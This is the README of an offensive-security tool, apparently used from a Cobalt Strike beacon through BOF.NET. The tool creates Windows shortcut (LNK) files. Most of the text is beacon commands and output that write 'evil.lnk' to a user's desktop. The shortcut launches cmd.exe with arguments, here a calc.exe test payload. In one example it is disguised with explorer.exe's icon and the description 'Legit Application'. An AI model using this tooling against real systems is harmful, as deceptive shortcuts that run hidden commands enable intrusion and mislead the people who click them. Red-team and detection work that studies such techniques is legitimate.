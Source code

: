 # LNK Creation BOF.NET
This is a simple [BOF.NET](https://github.com/CCob/BOF.NET) class for creating LNK files.

Dependent on the awesome [BOF.NET](https://github.com/CCob/BOF.NET) project created by [@_EthicalChaos_](https://twitter.com/_EthicalChaos_).

## Usage
Initiate BOF.NET and load the assembly:
```
beacon> bofnet_init
[*] Initializing BOFNET
[+] host called home, sent: 487585 bytes
[+] received output:
[+] BOFNET Runtime Initalized, assembly size 480768, .NET Runtime Version: 4.0.30319.42000 in AppDomain BOFNET

beacon> bofnet_load /tools/lnkcreate.dll
[*] Attempting to load large .NET assembly /tools/lnkcreate.dll into BOFNET
[+] host called home, sent: 14530 bytes
[+] received output:
[+] Setting up new loader with unique id RINU6WCY
[+] Loaded assembly lnkcreate, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null successfully
```

Create a LNK file to run `cmd.exe` wtih arguments to run `calc.exe`:
```
beacon> bofnet_execute BOFNET.Bofs.LNKCreate c:\users\user\desktop\evil.lnk cmd.exe "/c calc.exe"
[*] Attempting to execute BOFNET BOFNET.Bofs.LNKCreate
[+] host called home, sent: 6872 bytes
[+] received output:
[+] Creating LNK file...
Path: c:\users\user\desktop\evil.lnk
Target: cmd.exe
Arguments: /c calc.exe
SHA-256: 17630EE28931B27DACAB2BB63ACBEAEBDF2B25D7C96BA6611D098C932CB6D44B

[+] LNK created successfully!
```

Create a LNK file while setting the LNK icon to `explorer.exe` and adding a description:
```
beacon> bofnet_execute BOFNET.Bofs.LNKCreate c:\users\user\desktop\evil.lnk cmd.exe "/c calc.exe" C:\Windows\explorer.exe "Legit Application"
[*] Attempting to execute BOFNET BOFNET.Bofs.LNKCreate
[+] host called home, sent: 6934 bytes
[+] received output:
[+] Creating LNK file...
Path: c:\users\user\desktop\evil.lnk
Target: cmd.exe
Arguments: /c calc.exe
Icon: C:\Windows\explorer.exe
Description: Legit Application
SHA-256: 17630EE28931B27DACAB2BB63ACBEAEBDF2B25D7C96BA6611D098C932CB6D44B

[+] LNK created successfully!
```